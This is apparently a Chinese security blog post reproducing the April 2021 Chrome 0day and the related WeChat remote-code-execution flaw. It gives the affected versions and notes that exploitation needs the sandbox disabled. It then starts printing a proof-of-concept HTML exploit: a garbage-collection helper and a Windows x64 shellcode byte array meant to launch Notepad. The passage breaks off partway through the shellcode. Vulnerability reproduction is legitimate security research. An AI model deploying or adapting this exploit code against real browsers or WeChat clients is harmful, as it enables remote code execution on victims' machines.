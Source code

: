```yaml
---
layout:     post
title:      Chrome 0day && 微信RCE 0day复现
subtitle:   漏洞复现
date:       2021-04-20
author:     heria
header-img: img/post-bg-009.jpg
catalog: true
tags:
---
```


## 前言

4月13日披露的Chrome 0day，以及受此牵连的微信RCE 0day漏洞复现

## Chrome 0day描述

2021年04月13日，国外安全研究员发布了Chrome远程代码执行0Day漏洞的POC详情。攻击者利用漏洞，构造一个恶意的web页面，用户访问该页面时，会造成远程代码执行。

需要注意的是，该漏洞需要关闭浏览器的 `SandBox`功能，而该功能默认是开启的。（老版本微信内置chrome浏览器默认关闭sandbox，因此受到影响）

换言之，正常使用浏览器，是不会被该漏洞利用的。

## 影响版本：

Google:Chrome: <=89.0.4389.114

## 复现：

chrome当前版本

![image-20210420094632910](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210420094632910.png)

POC:

弹记事本poc

如下代码保存为poc.html文件

```
<script>
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
        0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
        0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
        0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
        0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
        0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
        0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
        0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
```